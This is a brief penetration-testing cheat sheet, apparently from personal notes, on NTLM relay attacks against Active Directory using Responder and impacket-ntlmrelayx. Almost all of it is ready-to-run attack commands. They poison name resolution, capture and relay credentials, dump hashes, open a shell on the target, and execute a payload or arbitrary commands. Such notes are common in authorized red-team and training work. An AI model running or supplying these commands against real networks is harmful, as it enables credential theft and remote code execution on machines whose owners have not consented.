 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - SMB
  - AD
---
```

Relay captures hashes to target machine for various types of access.
- Only works if SMB signing is disabled or "not required"
- Relayed creds MUST be admin on the machine
## Responder + ntlmrelayx
---

Edit responder conf:
```bash
sudo nano /etc/responder/Responder.conf
SMB = On ---> Off
HTTP = on ---> Off
```
Make targets list
```bash
echo "<TargetIP>" > targets.txt
```
Run responder
```bash
sudo responder -I eth0 -wv
```
Start ntlmrelayx with any of these options

**Dump hashes**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
**Get semi-interactive smbexec bind shell** (`nc localhost 11000`)
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
**Execute payload**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```
**Execute Command**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
```
Wait for auth attempt (or coerce auth attempt)
